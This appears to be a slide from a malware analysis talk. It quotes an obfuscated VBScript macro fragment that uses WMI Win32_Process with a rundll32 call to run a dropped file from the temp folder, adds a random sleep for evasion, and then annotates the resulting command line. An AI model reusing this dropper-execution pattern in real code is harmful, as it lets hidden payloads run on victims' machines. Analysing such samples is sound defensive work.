

# ERa() - F_RUN - execute the dropped file
Set setupService = GetObject("winmg" + "mts:Win32_Pro" + "cess")  ' <<<snipped>>>
tawny
   	 With WScript
   		 .Sleep Int((chivalrous-pbI+1)*Rnd+pbI)
   	 End With
   	 avlt = "rundll32" + " " + sandhill + "racial.drc" + ",DllRegisterServer":setupService.create avlt
   	 GewqX("DEBUG: F_RUN_W - True")
   	 DlAMe("-")
   	 nimbus

—------------------
Executes the command line:
rundll32 %TMP%\racial.drc, DllRegisterServer